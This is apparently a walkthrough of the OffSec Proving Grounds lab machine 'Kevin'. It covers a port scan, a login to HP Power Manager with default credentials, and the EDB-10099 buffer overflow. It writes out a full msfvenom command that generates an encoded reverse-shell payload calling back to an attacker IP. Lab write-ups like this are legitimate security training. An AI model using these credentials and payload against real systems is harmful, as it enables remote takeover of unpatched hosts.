

# Kevin — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Easy
**OS:** Windows 7

---

## TL;DR

HP Power Manager on port 80 → default creds `admin:admin` → EDB-10099 buffer overflow with custom shellcode → reverse shell as SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.195.45
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 80 | HTTP | GoAhead WebServer (HP Power Manager) |
| 135 | MSRPC | Microsoft Windows RPC |
| 139/445 | SMB | Windows 7 Ultimate N 7600 |
| 3389 | RDP | |
| 3573 | tag-ups-1 | |

**HP Power Manager** on port 80 — a UPS management interface.

---

## Exploitation — HP Power Manager Buffer Overflow (EDB-10099)

Login with default credentials: `admin:admin` ✓

Using [EDB-10099](https://www.exploit-db.com/exploits/10099), we need to replace the shellcode with our own reverse shell payload:

```bash
msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows \
  LHOST=192.168.45.198 LPORT=443 \
  -f c \
  -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" \
  -e x86/alpha_mixed
```



Key points:
- `-b` specifies bad characters listed in the exploit
- `-e x86/alpha_mixed` is the encoder specified in the exploit

Replace the shellcode in the exploit and run it. Shell comes back as **SYSTEM**. 🎉

---

## Key Takeaways

- **HP Power Manager** has well-known default credentials and a classic buffer overflow
- When modifying exploit shellcode, pay attention to **bad characters** and **encoder requirements**
- `msfvenom` with `-b` and `-e` flags handles bad character avoidance automatically

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
